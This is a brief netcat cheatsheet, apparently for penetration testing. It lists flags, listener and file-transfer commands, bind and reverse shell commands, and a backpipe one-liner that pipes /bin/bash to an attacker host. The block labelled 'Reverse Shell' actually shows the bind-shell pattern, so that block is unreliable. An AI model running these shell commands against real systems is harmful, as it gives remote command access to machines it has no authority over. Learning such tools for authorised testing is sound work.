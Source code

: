 # Netcat Cheatsheet

\*Hobbit\*: *"a simple utility which reads and writes data across network connections, using TCP or UDP protocols."*

[sourceforge.page](https://nc110.sourceforge.io/)

## -e
Kali linux has nc compiled with the flag: `-DGAPING_SECURITY_HOLE` with enabled -e option **MOST** modern Linux/BSD system **DON'T SUPPORT** -e. This option can redirect the input, output, and error messages of an executable to a TCP/UDP port rather than the default console.

## Flags
```bash
-n	skip DNS name resolution
-v	verbosity
-l	listener
-p	port
```

## Useful commands and context

Interact with application:
```bash
nc -nv $IP $PORT
```
Listener:
```bash
nc -nlvp $PORT
```
File transfer (client):
```bash
nc -nlvp $PORT > $FILE
```
File transfer (server):
```bash
nc -nv $IP $PORT < $FILE_TO_SEND
```

Bind shells
```bash
nc -nlvp $PORT -e cmd.exe # Listener
nc -nv $IP $PORT
```

Reverse Shell
```bash
nc -nv $IP $PORT
nc -nlvp $PORT -e /bin/bash  # Listener
```

NC disabled -e oldschool [Ed Skoudis](https://twitter.com/edskoudis)
```bash
mknod backpipe p; nc $attacker_ip $port 0<backpipe | /bin/bash 1>backpipe
```


## References

[sourceforge.page](https://nc110.sourceforge.io/)
[Ed Skoudis](https://twitter.com/edskoudis)
